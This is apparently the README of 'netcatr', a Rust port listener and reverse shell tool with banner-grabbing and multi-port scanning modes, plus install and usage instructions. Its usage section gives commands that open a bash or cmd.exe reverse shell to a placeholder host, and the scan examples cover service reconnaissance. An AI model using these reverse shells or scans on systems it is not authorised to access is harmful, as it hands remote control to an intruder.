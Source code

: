 # 📡 netcatr

```text
              _                 _
 _ __    ___ | |_   ___   __ _ | |_  _ __
| '_ \  / _ \| __| / __| / _` || __|| '__|
| | | ||  __/| |_ | (__ | (_| || |_ | |
|_| |_| \___| \__| \___| \__,_| \__||_|

```

📡 netcatr: A cross-platform port listener and reverse shell application designed for ease of use, providing seamless network connectivity.

## ✨ Features

- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;

### Modes

- Listen mode (listen);
- Reverse shell mode (connect);

### Banner Grabber Mode (NEW!)
Grab a banner from a single service:

# Auto-detect protocol based on port
netcatr banner 192.168.1.1 80

# Specify protocol explicitly
netcatr banner -p http 192.168.1.1 80

# Grab SSH banner with verbose output
netcatr banner -p ssh -v 192.168.1.1 22

# Grab banner with custom timeout
netcatr banner -t 10 192.168.1.1 21

# Multi-port Banner Grabbing
Scan multiple ports at once:

# Scan common ports
netcatr banner -m "21,22,23,25,53,80,110,143,443,993,995" target.com

# Scan with verbose output and save to file
netcatr banner -m "80,443,8080,8443" -v -o scan_results.txt example.com

# Supported Protocols

auto - Auto-detect based on port (default)
http - HTTP banner grabbing
https - HTTPS banner grabbing
ftp - FTP welcome message
ssh - SSH version string
smtp - SMTP greeting
telnet - Telnet banner
raw - Raw TCP banner

Banner Grabber Examples:

# Basic HTTP banner grab
netcatr banner example.com 80

# HTTPS with verbose output
netcatr banner -p https -v secure-site.com 443

# FTP server identification
netcatr banner -p ftp ftp.server.com 21

# SSH version detection
netcatr banner -p ssh server.com 22

# Multi-protocol scan with output file
netcatr banner -m "21,22,80,443" -o results.txt target.server.com

# Raw banner grab with extended timeout
netcatr banner -p raw -t 15 custom.service.com 9999


## 🚀 Installation

To install **netcatr**, simply clone the repository and follow the instructions below:

```bash
git clone git@github.com:trinhminhtriet/netcatr.git
cd netcatr

cargo build --release
cp ./target/release/netcatr /usr/local/bin/
```

Running the below command will globally install the `netcatr` binary.

```bash
cargo install netcatr
```

## 💡 Usage

The most basic and useful example to start listening on a port would be (you can even run vim inside netcatr with this):

```bash
netcatr listen -ib 55600
```

and to connect:

```bash
netcatr connect -s bash the.0.0.ip 55600
```

Reverse shell from Windows:

```bash
netcatr connect -s cmd.exe the.0.0.ip 55600
```

## 🗑️ Uninstallation

Running the below command will globally uninstall the `netcatr` binary.

```bash
cargo uninstall netcatr
```

Remove the project repo

```bash
rm -rf /path/to/git/clone/netcatr
```

## 🤝 How to contribute

We welcome contributions!

- Fork this repository;
- Create a branch with your feature: `git checkout -b my-feature`;
- Commit your changes: `git commit -m "feat: my new feature"`;
- Push to your branch: `git push origin my-feature`.

Once your pull request has been merged, you can delete your branch.

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
